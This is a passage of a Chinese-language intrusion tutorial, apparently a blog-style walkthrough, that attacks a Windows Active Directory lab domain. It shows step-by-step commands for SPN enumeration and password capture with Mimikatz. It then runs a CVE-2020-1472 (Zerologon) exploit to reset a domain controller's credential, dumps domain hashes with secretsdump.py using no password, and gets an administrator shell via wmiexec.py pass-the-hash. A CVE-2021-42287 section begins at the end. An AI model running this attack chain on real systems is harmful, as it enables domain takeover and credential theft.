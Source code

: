 命令：powershell setspn -T 0day.org -q   
/  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1UibicpicXGT3hZlbG0spxxgTibk2icT3VDcN7KI0aYtLeYoeNw70tdqLASxUPY98ar8rU8gOSeHc9EbDcOQ/640?wx_fmt=png&from=appmsg "")  
  
ping计算机名获取ip地址  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1UibicpicXGT3hZlbG0spxxgTibk2ADlgv8ShMkJdt8ysnKviaUmpOv3XxldFibm2ibD3q6jq16iauKzGR0bYgA/640?wx_fmt=png&from=appmsg "")  
  
micle@rootkit.org，域用户@域名，密码通过  
Mimikatz抓取  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1UibicpicXGT3hZlbG0spxxgTibk2icNMm4lxUFNDicWKricjn6myHWuwZrn9H7b6GHqvhre8AMwNwHKw1hbibA/640?wx_fmt=png&from=appmsg "")  
  
**5.3.2 CVE-2020-1472**  
  
影响版本：**WIN2008-2019**  
  
，只能打域  
  
获取计算机名，net group "domain controllers" /domain  
  
或者net time /domain  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1UibicpicXGT3hZlbG0spxxgTibk29fprJEjEyibClQRn4uBcCOFHbicxlhqjG6UkyxF9zd4bosg9iaPZdKndQ/640?wx_fmt=png&from=appmsg "")  
  
连接DC清空凭证：  
  
OWA2010CN-GOD为域控地址，  
  
3.21为域控ip  
  
python cve-2020-1472-exploit.py OWA2010CN-GOD 192.168.3.21  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1UibicpicXGT3hZlbG0spxxgTibk2uyicEJnkKqOlaXlKxvYWnQt9QjM4IiczDjhm9d8ayibB7tPqrycPvKsXw/640?wx_fmt=png&from=appmsg "")  
  
获取域内HASH(使用空密码连接):  
  
使用imp套件工具  
  
“域控/主机名@域控ip”  
  
python secretsdump.py "god.org/owa2010cn-god$@192.168.3.21" -no-pass  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1UibicpicXGT3hZlbG0spxxgTibk2ia6DfO70P8RPFdXcsSBJsTvUOMxGorQmdwevQjYRiciaWiaQBMQQhwyHCg/640?wx_fmt=png&from=appmsg "")  
  
将内容复制出来，使用刚才回显的哈希密码连接  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1UibicpicXGT3hZlbG0spxxgTibk2GW3KwHSqrt4j8Hib2tVGHamcaKRvT1ibAmaG9B2rtOSnhwkrXTy8lBhg/640?wx_fmt=png&from=appmsg "")  
  
python wmiexec.py -hashes :ccef208c6485269c20db2cad21734fe7 god/administrator@192.168.3.21  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1UibicpicXGT3hZlbG0spxxgTibk2dS51b7rdTicGL7OM6op6hqhTxQUs3wUu8gwoJFribyPmX8vlPoDLowyg/640?wx_fmt=png&from=appmsg "")  
  
**5.3.2 CVE-2021-42287**  
  
前提条件：一个域内普通账号（需要明文密码），相对于刚才的漏洞多了一个条件  
  
影响版本：Windows基本全系列  
  